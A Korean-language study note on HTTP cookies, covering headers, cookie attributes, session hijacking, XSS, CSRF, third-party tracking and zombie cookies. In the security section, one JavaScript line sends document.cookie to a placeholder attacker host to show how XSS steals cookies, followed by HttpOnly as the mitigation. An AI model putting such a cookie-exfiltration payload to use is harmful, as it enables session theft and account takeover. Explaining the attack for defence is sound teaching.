 # HTTP 쿠키

## HTTP 쿠키란?

HTTP쿠키는 서버가 사용자의 웹 브라우저에 전송하는 작은 데이터 파일이다. 헨젤과 그레텔에서 주인공이 길을 지나며 남긴 빵 부스러기와 같다고 해서 붙여진 이름이다. 클라이언트는 그 데이터 파일을 저장해 놓았다가, 동일한 서버에 재 요청할 때 전송한다. 쿠키는 요청을 보낸 브라우저를 식별하는 데 주로 사용하며, 상태가 없는(stateless) HTTP 프로토콜에서 상태 정보를 기억시켜준다. 

## 쿠키의 목적

- 세션 관리(Session management)
  - 서버에 저장해야 할 로그인, 장바구니, 게임 스코어 등의 정보 관리
- 개인화(Personalization)
  - 사용자 선호, 테마 등의 세팅
- 트래킹(Tracking)
  - 사용자 행동을 기록하고 분석하는 용도

## 클라이언트 측의 데이터 저장

데이터를 클라이언트 측에 저장할 때 쿠키를 사용하던 과거와 달리 지금은 modern storage APIs를 사용할 것이 권장된다. 쿠키는 모든 요청마다 함께 전송되기 때문에 성능이 저하될 수 있기 때문이다.

## 저장된 쿠키 보기

- 개발자 도구 > Storage Inspector -> 스토리지 트리의 쿠키 스토리지

## 쿠키 만들기

### Set-Cookie 응답헤더와 Cookie 요청헤더

- `Set-Cookie`: 서버: 클라이언트야 쿠키 저장해!

```
Set-Cookie: 쿠키이름=쿠키값
Set-Cookie: 쿠키이름=쿠키값
```

- `Cookie`: 브라우저: 서버로 이전에 저장했던 모든 쿠키들 회신

```
Cookie: 쿠키이름1=쿠키값1; 쿠키이름2=쿠키값2
```

### Session 쿠키와 Permanent 쿠키

`Expires`나 `Max-Age`를 명시하지 않을 경우 클라이언트가 종료되면 삭제되는 **Session 쿠키**가 된다.  명시하면 클라이언트가 닫힐 때 만료되지 않는 **Permanent 쿠키**가 된다.

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; // Permanent 쿠키
```

### Secure 쿠키와 HttpOnly 쿠키

쿠키에 **Secure** 옵션을 줄 경우 **Https 프로토콜** 상에서 암호화된 요청일 경우만 전송된다.  **HttpOnly** 옵션을 줄 경우, **자바스크립트를 통해 쿠키 값에 접근하는 것을 막아** Cross-site 스크립팅 공격을 누그러뜨리는 데 도움을 줄 수 있다. 



### 쿠키의 스코프: Domain과 Path 속성

- `Domain`과 `Path` 디렉티브를 통해 특정 도메인 혹은 경로 제한 설정이 가능하다.
- `Domain`: 서브도메인 포함
  - 예를 들어, `Domain=naver.com`가 설정되면 쿠키들이 `dict.naver.com`, `news.naver.com`과 같은 서브 도메인 상에도 포함된다. 
- `Path`: 서브 디렉토리 포함
  - 예를 들어, `Path=/docs`가 설정되면 쿠키들이 `/docs`, `docs/Web/`, `docs/HTTP`와 같은 서브 디렉토리 상에도 포함된다.



### SameSite 쿠키

SameSite 쿠키는 쿠키가 cross-site 요청과 함께 전송되지 않게 한다.



### Document.cookie를 사용한 자바스크립트 접근

- `Document.cookie`를 사용해 쿠키를 만들어낼 수 있다. `HttpOnly`플래그가 설저어되지 않은 경우 기본 쿠키들은 자바스크립트로부터 잘 접근될 수 있다

```javascript
document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=strawberry";
console.log(document.cookie);
// logs "yummy+cookie=choco; tasty_cookie=strawberry";
```



## 보안

### 세션 하이재킹과 XSS(Cross-Site Script**)**

**세션 하이재킹**이란 서버와 클라이언트 사이에서 이루어지는 통신에 낑겨서 클라이언트가 서버로 붙어 있는 세션을 탈취해오는 기술이다. **XSS(Cross-Site Script, 사이트 간 스크립팅)**는 권한이 없는 유저가 사이트 내에 악의적인 스크립트를 삽입하여 사용자의 쿠키, 세션 등을 탈취하거나, 의도하지 않은 비정상적인 행위를 하게끔 유도할 수 있는 취약점이다. 

HTTP 통신은 Stateless하기 때문에 기본적으로는 로그인을 해도 페이지 이동 시 로그아웃이 될 것이다. 따라서 서버는 세션을 이용하여 로그인 상태를 기억한다. 서버는 **Session** ID를 사용자에게 부여해주고 사용자는 쿠키를 이용해 Session ID를 저장한다. 공격자는 사용자와 서버 사이에 부여된 세션을 가로채 해당 사용자의 권한으로 사이트를 접근할 수 있게 된다. 소셜 공학을 사용하거나 애플리케이션 내의 XSS 취약점을 이용하여 쿠키를 가로챌 수 있다.

```javascript
(new Image()).src = "https://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

그렇다면 이를 방지하기 위해서는 어떻게 해야 할까? 쿠키에 `HttpOnly` 속성을 주면 자바스크립트를 통해 쿠키 값에 접근하는 것을 막아 공격을 누그러뜨리는 데 도움을 줄 수 있다.

### Cross-site 요청 위조 (CSRF)

불특정 다수를 대상으로 로그인된 사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위(수정, 삭제, 등록 등)을 요청하게 하는 공격이다. XXS을 이용한 공격이 사용자가 특정 웹사이트를 신용하는 점을 노린 것이라면, 사이트간 요청 위조는 특정 웹사이트가 사용자의 웹브라우저를 신용하는 상태를 노린 것이다. 사용자가 웹사이트에 로그인한 상태에서 사이트간 요청 위조 공격 코드가 삽입된 페이지를 열면, 공격 대상이 되는 웹사이트는 위조된 공격 명령이 믿을 수 있는 사용자로부터 발송된 것으로 판단하게 되어 공격에 노출된다.

## 트래킹과 프라이버시

### 서드파티 쿠키

퍼스트파티 쿠키는 웹사이트 운영자가, 서드파티는 외부 업체가 심는 것이다. 브라우저가 서드파티 쿠키를 지원하면 쿠키를 인터넷 광고 업체 등 제3자에게 제공하는 것으로 기업 광고의 주요 자원이 된다. 광고주는 해당 쿠키로 이용자 성향을 파악해 타겟팅 광고를 할 수 있다. 그러나 이로 인한 개인 정보 침해 문제로 최근 많은 브라우저에서 서드파티 쿠키 지원을 중단하겠다고 발표했다. 

### DNT 요청 헤더 (Do Not Track)

트래킹 혹은 cross-site 사용자 트래킹 모두를 비활성화하는 신호로 사용될 수 있다.

### EU 쿠키 디렉티브

- EU 전역의 쿠키에 대한 요구사항.
- 누군가 어떤 정보든지 저장하거나 검색하기 전에, 사용자가 사전 동의를 해야만 한다. 웹사이트가 사용자에게 쿠키 사용에 대한 내용을 알려준 뒤에 배너를 추가할 수 있다.

### 좀비 쿠키와 Evercookies

좀비 쿠키는 삭제 이후에 다시 생성되는 쿠키이다. 클라이언트 측 스크립트가 여러 곳(웹 스토리지 API, Flash로컬 공유 객체 등)에 쿠키 내용을 저장하고, 스크립트가 쿠키가 없음을 알아차리면 각 위치에 저장되어 있는 데이터를 사용하여 쿠키를 재생성한다. Evercookie는 좀비 쿠키를 생산하는 자바스크립트 기반 어플리케이션이다. 





https://developer.mozilla.org/ko/docs/Web/HTTP/Cookies

[https://ko.wikipedia.org/wiki/%EC%82%AC%EC%9D%B4%ED%8A%B8_%EA%B0%84_%EC%9A%94%EC%B2%AD_%EC%9C%84%EC%A1%B0](https://ko.wikipedia.org/wiki/사이트_간_요청_위조)

http://it.chosun.com/site/data/html_dir/2020/02/16/2020021600579.html

https://gmyankee.tistory.com/86